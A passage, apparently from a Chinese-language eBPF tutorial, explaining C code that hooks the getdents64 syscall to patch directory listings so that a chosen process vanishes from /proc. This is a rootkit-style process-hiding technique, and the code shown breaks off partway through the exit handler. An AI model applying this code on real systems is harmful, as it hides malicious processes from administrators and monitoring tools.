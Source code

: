 ```c

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);

    return 0;
}
```

在这部分代码中，我们可以看到 eBPF 程序的一部分具体实现，该程序负责在 `getdents64` 系统调用的入口处进行处理。

我们首先声明了几个全局的变量。其中 `target_ppid` 代表我们要关注的目标父进程的 PID。如果这个值为 0，那么我们将关注所有的进程。`pid_to_hide_len` 和 `pid_to_hide` 则分别用来存储我们要隐藏的进程的 PID 的长度和 PID 本身。这个 PID 会转化成 `/proc/` 目录下的一个文件夹的名称，因此被隐藏的进程在 `/proc/` 目录下将无法被看到。

接下来，我们声明了一个名为 `linux_dirent64` 的结构体。这个结构体代表一个 Linux 目录项，包含了一些元数据，如 inode 号、下一个目录项的偏移、当前目录项的长度、文件类型以及文件名。

然后是 `getdents64` 函数的原型。这个函数是 Linux 系统调用，用于读取一个目录的内容。我们的目标就是在这个函数执行的过程中，对目录项进行修改，以实现进程隐藏。

随后的部分是 eBPF 程序的具体实现。我们在 `getdents64` 系统调用的入口处定义了一个名为 `handle_getdents_enter` 的函数。这个函数首先获取了当前进程的 PID 和线程组 ID，然后检查这个进程是否是我们关注的进程。如果我们设置了 `target_ppid`，那么我们就只关注那些父进程的 PID 为 `target_ppid` 的进程。如果 `target_ppid` 为 0，我们就关注所有进程。

在确认了当前进程是我们关注的进程之后，我们将 `getdents64` 系统调用的参数保存到一个 map 中，以便在系统调用返回时使用。我们特别关注 `getdents64` 系统调用的第二个参数，它是一个指向 `linux_dirent64` 结构体的指针，代表了系统调用要读取的目录的内容。我们将这个指针以及当前的 PID 和线程组 ID 作为键值对保存到 `map_buffs` 这个 map 中。

至此，我们完成了 `getdents64` 系统调用入口处的处理。在系统调用返回时，我们将会在 `handle_getdents_exit` 函数中，对目录项进行修改，以实现进程隐藏。

在接下来的代码段中，我们将要实现在 `getdents64` 系统调用返回时的处理。我们主要的目标就是找到我们想要隐藏的进程，并且对目录项进行修改以实现隐藏。

我们首先定义了一个名为 `handle_getdents_exit` 的函数，它将在 `getdents64` 系统调用返回时被调用。

```c

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_exit(struct trace_event_raw_sys_exit *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    int total_bytes_read = ctx->ret;
    // if bytes_read is 0, everything's been read
    if (total_bytes_read <= 0) {
        return 0;
    }

    // Check we stored the address of the buffer from the syscall entry
    long unsigned int* pbuff_addr = bpf_map_lookup_elem(&map_buffs, &pid_tgid);
    if (pbuff_addr == 0) {
        return 0;
    }

    // All of this is quite complex, but basically boils down to
    // Calling 'handle_getdents_exit' in a loop to iterate over the file listing
    // in chunks of 200, and seeing if a folder with the name of our pid is in there.
    // If we find it, use 'bpf_tail_call' to jump to handle_getdents_patch to do the actual
    // patching
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp = 0;
    int pid = pid_tgid >> 32;
    short unsigned int d_reclen = 0;
    char filename[max_pid_len];

    unsigned int bpos = 0;
    unsigned int *pBPOS = bpf_map_lookup_elem(&map_bytes_read, &pid_tgid);
    if (pBPOS != 0) {
        bpos = *pBPOS;
    }
```